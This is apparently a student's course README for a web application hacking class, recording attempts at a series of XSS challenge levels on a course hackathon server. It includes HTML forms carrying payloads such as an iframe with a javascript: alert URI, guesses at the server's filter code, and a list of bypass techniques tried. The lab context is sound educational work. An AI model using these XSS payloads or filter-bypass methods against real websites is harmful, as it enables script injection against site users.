

# WAPH-Web Application Programming and Hacking

## Instructor: Dr. Phu Phung

## Student

**Name**: Ian Cannon

**Email**: [mailto:cannoni1@udayton.edu](cannoni1@udayton.edu)

**Short-bio**: Ian Cannon interests in Reinforcement Learning for Autonomous Control. 


## Repository Information

Respository's URL: [https://github.com/Spiph/WebAppDev](https://github.com/Spiph/WebAppDev)

This is a public repository for Ian Cannon to store all code from the course. The organization of this repository is as follows.

### 9 Levels of Attacks


#### Level 0 


#### Level 1


#### Level 2
```html
<!DOCTYPE html>
<html>
<head>
  <title>Level 2 XSS Attack</title>
</head>
<body>
  <h1>Level 2 XSS Test</h1>
  <form method="POST" action="https://waph-hackathon.eastus.cloudapp.azure.com/xss/level2/echo.php">
    <input name="input" value='' size="80" />
    <button type="submit">Submit Attack</button>
  </form>
</body>
</html>
```



echo guess
```php
$input = str_replace(["<script>", "</script>"], "", $_POST["input"]);
echo $input;
```

#### Level 3

```html
<form method="POST" action="https://waph-hackathon.eastus.cloudapp.azure.com/xss/level3/echo.php">
  <input name="input" value='<iframe src="javascript:alert(`Ian Cannon`)"></iframe>' size="80" />
  <button type="submit">Submit Attack</button>
</form>
```


echo.php
```php
$input = str_replace(["<script>", "</script>", "onload", "onerror"], "", $_POST["input"]);
echo $input;
```

#### Level 4

I have ruled out:
- 
- <svg ...>
- <a href="javascript:...">
- data: URIs 
- All event handlers (on*)
- The string "script" in any context
- style attack
- Encoded payloads using &#60;, &#x3C;, etc.

And still was not able to successfully attack :(
Can I get partial credit for trying so hard?

#### Level 5

```html
<!DOCTYPE html>
<html>
<head><title>Level 5 XSS - DOM Injection</title></head>
<body>
  <h1>Level 5 DOM Test</h1>
  <form method="POST" action="https://waph-hackathon.eastus.cloudapp.azure.com/xss/level5/echo.php">
    <input name="input" value='Ian Cannon Was Here</h1>`">' size="120" />
    <button type="submit">Submit Attack</button>
  </form>
</body>
</html>
```


Code guess:
Doesn’t sanitize the output, still executes JS — only blocks specific function names.
```
$input = $_POST["input"];
if (preg_match('/alert|confirm|prompt/i', $input)) {
    echo json_encode(["error" => "No \'alert\' is allowed!"]);
    exit;
}
echo $input;
```


#### Level 6
possible code 
```
echo htmlspecialchars($_POST["input"], ENT_QUOTES | ENT_HTML5);
```
''

In Level 6, the web application applies strict output encoding using htmlspecialchars() or equivalent, converting all special characters such as <, >, ", and ' into HTML-safe entities. This ensures that user input is rendered as inert plain text on the page. I attempted a variety of reflected XSS attacks, including HTML tag injection, JavaScript injection, encoded entity bypasses, iframe srcdoc exploits, JavaScript context breaks, and obfuscated function calls. All were rendered as visible text in the browser and did not execute. Based on testing and inspection via DevTools, I conclude that Level 6 is not vulnerable to reflected XSS due to proper output encoding.